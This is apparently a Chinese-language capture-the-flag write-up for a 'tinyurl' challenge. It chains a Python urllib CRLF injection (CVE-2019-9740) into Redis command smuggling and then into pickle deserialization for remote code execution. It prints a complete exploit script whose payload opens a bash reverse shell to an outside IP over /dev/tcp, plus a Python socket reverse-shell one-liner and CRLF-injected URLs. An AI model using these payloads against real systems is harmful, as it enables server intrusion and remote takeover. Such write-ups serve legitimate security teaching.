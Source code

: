 ## tinyurl
首先先查到 urllib 的漏洞 CVE-2016-5699 並查看到相關文章，但最後發現無法使用猜測被修復了，查了一下漏洞對應的 python 版本號也是如此。因此只好繼續查資料...。
之後發現今年也有一個 urllib 的漏洞，對應 CVE-2019-9740 Python urllib CRLF injection vulnerability，因此先做嘗試。
我先使用 `nc -vlk 1234` 在本機建立一個 port 去接 return header，結果如下：
```
url = "http://140.113.209.28:12345/?q=a HTTP\x2f1.1\x0d\x0arce: here\x0d\x0aHeader2\x3a"
```
```bash
yuan@yuan-All-Series:~$ nc -vl 12345
Listening on [0.0.0.0] (family 0, port 12345)
Connection from 172.18.0.3 43174 received!
GET /?q=a HTTP/1.1
rce: here
Header2: HTTP/1.1
Accept-Encoding: identity
Host: 140.113.209.28:12345
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.70 Safari/537.36
Connection: close
```
發現 header 被我更改了！！！
之後就可以藉由 CVE-2019-9740 的說明 (https://bugs.python.org/issue36276) 去攻擊 redis ....
但要攻擊 redis，首先要知道 redis 的 ip 位置，這讓我想到之前 AIS3-2019 有解到一題可以透過檔案去取得本地的 ip 得方法 (d1v1n6 d33p3r)，拿來使用試試
先用 exec 進入 redis 主機
```
root@411df3d9b675:/data# cat /proc/net/fib_trie
Main:
  +-- 0.0.0.0/0 3 0 5
     |-- 0.0.0.0
        /0 universe UNICAST
     +-- 127.0.0.0/8 2 0 2
        +-- 127.0.0.0/31 1 0 0
           |-- 127.0.0.0
              /32 link BROADCAST
              /8 host LOCAL
           |-- 127.0.0.1
              /32 host LOCAL
        |-- 127.255.255.255
           /32 link BROADCAST
     +-- 172.18.0.0/16 2 0 2
        +-- 172.18.0.0/30 2 0 2
           |-- 172.18.0.0
              /32 link BROADCAST
              /16 link UNICAST
           |-- 172.18.0.2
              /32 host LOCAL
        |-- 127.255.255.255
           /32 link BROADCAST
     +-- 172.18.0.0/16 2 0 2
        +-- 172.18.0.0/30 2 0 2
           |-- 172.18.0.0
              /32 link BROADCAST
              /16 link UNICAST
           |-- 172.18.0.2
              /32 host LOCAL
        |-- 172.18.255.255
           /32 link BROADCAST
```
可以看到 redis ip 為 172.18.0.2，就可以嘗試做攻擊
```
url = "http://172.18.0.2:6379/?q=a HTTP\x2f1.1\x0d\x0aSET foo bar\x0d\x0aSAVE\x0d\x0aHeader2\x3a"
```
```
root@411df3d9b675:/data# redis-cli monitor
OK
1575354927.114477 [0 172.18.0.3:41290] "SETEX" "session:b26bf330-be21-435c-95df-62fa7425419a" "2678400" "\x80\x03}q\x00X\n\x00\x00\x00_permanentq\x01\x88s."
1575354928.910544 [0 172.18.0.3:41290] "GET" "session:aaaa"
1575354928.911616 [0 172.18.0.3:44374] "SET" "foo" "bar"
1575354928.968113 [0 172.18.0.3:44374] "Host:" "172.18.0.2:6379"
1575354928.970296 [0 172.18.0.3:41290] "SETEX" "session:aaaa" "2678400" "\x80\x03}q\x00X\n\x00\x00\x00_permanentq\x01\x88s."

root@411df3d9b675:/data# redis-cli
127.0.0.1:6379> KEYS foo
1) "foo"
127.0.0.1:6379> GET foo
"bar"
127.0.0.1:6379> 

```
可以看到可以加東西進入 redis 中了，之後看看 redis 有什麼
```
127.0.0.1:6379> KEYS s*
 1) "session:59f2209c-c7e7-45a0-8bf6-0ccc3430415a"
 2) "session:2cfb6ee5-a777-4cd0-8ee2-fe5bca16721c"
 ...
 
127.0.0.1:6379> GET session:59f2209c-c7e7-45a0-8bf6-0ccc3430415a
"\x80\x03}q\x00X\n\x00\x00\x00_permanentq\x01\x88s."
```
可以看到存 session 中的東西是一個序列化得字串，因此就可以去做反序列化攻擊
```python
# coding=utf-8
import requests
import os
import redis
import _pickle as pickle

class A(object):
    def __reduce__(self):
        a = "bash -c 'bash -i >& /dev/tcp/140.113.209.28/1234 0>&1'"
        return (os.system, (a, ))


a = A()
result = pickle.dumps(a)

url = 'http://172.18.0.2:6379/?q=a HTTP\x2f1.1\x0d\x0aSET session:fuck ' + str(
    result)[1:] + '\x0d\x0aSAVE\x0d\x0aHeader2\x3a'
my_params = {'url': url}
b = requests.post('https://127.0.0.1:10163/', my_params, verify=False)
print(b.text)
```
由於 redis 對於 `"` 很敏感，如果使用有較長的 payload 並對 " 前加上跳脫字元得化，redis 會把所有像是 `\x30` 變成 `\\x30`
```
a = "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"140.113.209.28\",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"])"
```
`"SET" "session:fuck" "\\x80\\x03....`
而如果使用 `\x34` 代替 `"` ，則會解析成 `4`

`s.connect((4140.113.209.284,1234));`

之後果斷使用以前教的 reverse shell payload
之後嘗試打題目主機，但發現主機的 redis ip 不在 172.18.0.2，推測是 docker 的緣故，畢竟題目主機不知有多少的 container....
改使用 `'http://redis:6379/` 解決他就成功了，之後把連上去那網頁的並換成自己創 session 的就能 reverse shell
